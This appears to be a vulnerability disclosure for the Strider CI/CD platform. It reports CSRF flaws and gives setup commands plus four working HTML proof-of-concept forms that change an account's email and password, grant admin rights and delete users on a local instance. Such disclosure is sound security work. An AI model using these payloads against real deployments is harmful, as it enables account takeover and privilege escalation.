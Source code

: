 # Description

`Strider` is an Open Source Continuous Deployment / Continuous Integration platform. It is written in Node.js and Ember.js and uses MongoDB as a backing store. This platform is vulnerable to `Cross-Site Request Forgery (CSRF)`. It allowes an attacker to takeover accounts, privillege escalation and accounts deletion.

# Proof of Concept

1. Setup MongoDB
2. Install the package
```bash
git clone https://github.com/Strider-CD/strider.git
cd strider/apps/strider
npm i
node bin/strider addUser # add users accordingly
NODE_ENV=production npm start # start server
```
3. Login as admin
4. Use any of the CSRF POCs
# Change email
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/email" method="POST">
      <input type="hidden" name="email" value="admin2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
# Change password
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/api/account/password" method="POST">
      <input type="hidden" name="password" value="hacked" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
# Privilege escalation
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/make_admin">
      <input type="hidden" name="user" value="user&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
# Account deletion
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:3000/admin/remove_user" method="POST">
      <input type="hidden" name="email" value="admin&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
